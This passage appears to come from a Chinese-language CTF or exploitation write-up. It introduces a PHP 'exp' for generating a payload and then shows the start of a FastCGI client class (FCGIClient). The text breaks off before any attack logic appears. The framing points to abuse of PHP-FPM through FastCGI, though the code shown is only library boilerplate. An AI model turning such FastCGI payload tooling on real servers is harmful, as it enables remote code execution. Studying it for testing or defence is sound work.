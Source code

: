 利用如下exp生成payload

```
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
    const ABORT_REQUEST        = 2;
    const END_REQUEST          = 3;
    const PARAMS               = 4;
    const STDIN                = 5;
    const STDOUT               = 6;
    const STDERR               = 7;
    const DATA                 = 8;
    const GET_VALUES           = 9;
    const GET_VALUES_RESULT    = 10;
    const UNKNOWN_TYPE         = 11;
    const MAXTYPE              = self::UNKNOWN_TYPE;
    const RESPONDER            = 1;
    const AUTHORIZER           = 2;
    const FILTER               = 3;
    const REQUEST_COMPLETE     = 0;
    const CANT_MPX_CONN        = 1;
    const OVERLOADED           = 2;
    const UNKNOWN_ROLE         = 3;
    const MAX_CONNS            = 'MAX_CONNS';
    const MAX_REQS             = 'MAX_REQS';
    const MPXS_CONNS           = 'MPXS_CONNS';
    const HEADER_LEN           = 8;
    /**
     * Socket
     * @var Resource
     */
    private $_sock = null;
    /**
     * Host
     * @var String
     */
    private $_host = null;
    /**
     * Port
     * @var Integer
```